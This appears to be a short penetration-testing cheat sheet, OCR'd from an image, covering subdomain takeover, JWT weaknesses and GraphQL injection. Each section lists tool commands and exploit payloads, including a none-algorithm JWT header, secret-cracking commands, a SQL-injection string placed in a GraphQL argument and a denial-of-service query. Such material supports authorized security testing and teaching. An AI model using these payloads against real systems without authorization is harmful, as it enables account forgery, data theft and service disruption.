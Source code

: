 ## **SUBDOMAIN TAKEOVER**
*Present when: DNS points to unclaimed cloud services*

**Manual:** Check CNAME records, try claiming the service
**Automated:**
```bash
subjack -w subdomains.txt -t 100 -timeout 30
nuclei -u target.com -t takeovers/
```

**Exploit:**
```bash
# If CNAME points to unclaimed service
dig subdomain.target.com
# If points to xxx.github.io - claim that GitHub pages
```

## **JWT VULNERABILITIES**
*Present when: JSON Web Tokens lack proper validation*

**Manual:** Decode JWT, modify payload/header, test none algorithm
**Automated:**
```bash
jwt_tool token.jwt -C -d wordlist.txt
jwttool.py -t token.jwt
```

**Exploit:**
```json
# None algorithm
{"alg":"none","typ":"JWT"}

# Algorithm confusion
jwt_tool token.jwt -X k -pk public.pem

# Weak secret
jwt_tool token.jwt -C -d rockyou.txt
```

## **GRAPHQL INJECTION**
*Present when: GraphQL endpoints lack proper input validation*

**Manual:** Send malformed queries, introspection queries
**Automated:**
```bash
graphql-cop -t target.com/graphql
nuclei -u target.com -t graphql/
```

**Exploit:**
```json
# Introspection
{__schema{types{name fields{name type{name}}}}}

# Injection
{user(id: "1' OR 1=1--") {name email}}

# DoS
query {users(first: 99999999) {name}}
```
